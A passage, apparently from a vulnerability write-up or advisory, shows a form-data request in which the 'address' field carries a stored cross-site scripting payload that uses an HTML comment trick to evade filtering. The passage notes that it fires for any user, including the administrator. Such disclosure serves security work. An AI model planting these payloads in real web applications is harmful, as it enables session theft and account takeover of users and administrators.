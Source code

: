 ```
Content-Disposition: form-data; name="address"

test2"><img on<--! -->error=alert(1338) src="x
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="zipcode"


-----------------------------35554569283903635121184184309

...

```

Which will be triggered by any user:

![alt text](../captures/c17_21.png "Figure 21: [UPDATE]: Stored XSS 1")

Including the administrator:
